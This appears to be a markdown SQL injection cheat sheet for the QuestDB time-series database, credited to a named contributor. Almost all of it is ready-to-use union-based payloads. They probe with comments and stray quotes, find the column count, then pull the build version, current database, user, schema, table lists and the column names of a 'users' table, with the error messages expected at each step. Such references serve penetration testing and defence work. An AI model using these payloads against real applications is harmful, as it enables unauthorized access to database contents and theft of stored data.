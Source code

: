 # QuestDB Injection (time series database):

#### add by Meisam Monsef 

## Comments:

    --comment (No space is needed)
    /*comment*/

## Testing Injection : 
        '
        1'  #  get error unclosed quoted string?

## Union Based:

        1' order by 100--                             #order column position is out of range [max=8]
        1' order by 8--                               #no error 
        1' union SELECT 1--                           #queries have different number of columns
        1' union SELECT 1,2,3,4,5,6,7,8--             #success
        1' union SELECT 1,2,3,4,5,6,7,8--             #error unsupported cast [column=8, from=INT, to=TIMESTAMP]
        1' union SELECT 1,2,3,4,5,6,7,null--          #success

## Version:

         1' union SELECT build(),2,3,4,5,6,7,null--'
         
## Get the current database:

         1' union SELECT current_database(),2,3,4,5,6,7,null--'

## Get the current user:

         1' union SELECT current_user(),2,3,4,5,6,7,null--'

## Get the current schema:

         1' union SELECT current_schema(),2,3,4,5,6,7,null--'

## Get All Tables:

        1' union SELECT table_name,2,3,4,5,6,7,null from tables()--'        #get all none WAL tables
        1' union SELECT table_name,2,3,4,5,6,7,null from all_tables()--'    #get all none WAL tables
        1' union SELECT name,2,3,4,5,6,7,null from wal_tables()--'          #get all WAL tables

## Get columns name for table:

        1' union SELECT column,2,3,4,5,6,7,null from table_columns('users')--'                   #get error table and column names that are SQL keywords
        1' union SELECT "column",2,3,4,5,6,7,null from table_columns('users')--'                 #success
        1' union SELECT string_agg("column",','),2,3,4,5,6,7,null from table_columns('users')--' #get all columns name
